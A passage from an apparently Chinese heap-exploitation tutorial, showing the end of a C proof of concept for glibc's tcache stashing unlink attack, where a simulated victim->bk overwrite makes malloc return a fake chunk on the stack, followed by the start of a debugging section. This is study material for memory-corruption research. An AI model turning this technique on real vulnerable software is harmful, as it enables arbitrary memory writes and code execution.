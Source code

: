 ```c

    //last tcache bin
    free(chunk_lis[1]);
    //now they are put into unsorted bin
    free(chunk_lis[0]);
    free(chunk_lis[2]);

    //convert into small bin
    printf("Now we alloc a chunk larger than 0x90 to put chunk0 and chunk2 into small bin.\n\n");

    malloc(0xa0);// size > 0x90

    //now 5 tcache bins
    printf("Then we malloc two chunks to spare space for small bins. After that, we now have 5 tcache bins and 2 small bins\n\n");

    malloc(0x90);
    malloc(0x90);

    printf("Now we emulate a vulnerability that can overwrite the victim->bk pointer into fake_chunk addr: %p.\n\n",(void*)stack_var);

    //change victim->bck
    /*VULNERABILITY*/
    chunk_lis[2][1] = (unsigned long)stack_var;
    /*VULNERABILITY*/

    //trigger the attack
    printf("Finally we alloc a 0x90 chunk with calloc to trigger the attack. The small bin preiously freed will be returned to user, the other one and the fake_chunk were linked into tcache bins.\n\n");

    calloc(1,0x90);

    printf("Now our fake chunk has been put into tcache bin[0xa0] list. Its fd pointer now point to next free chunk: %p and the bck->fd has been changed into a libc addr: %p\n\n",(void*)stack_var[2],(void*)stack_var[4]);

    //malloc and return our fake chunk on stack
    target = malloc(0x90);   

    printf("As you can see, next malloc(0x90) will return the region our fake chunk: %p\n",(void*)target);

    assert(target == &stack_var[2]);
    return 0;
}

```

## POC调试
我们对代码第24行下断点，然后我们开始调试，首先我们来看程序所需要的一些数据，这里在stack_var上伪造了一个地址，这个地址的作用之后再说：
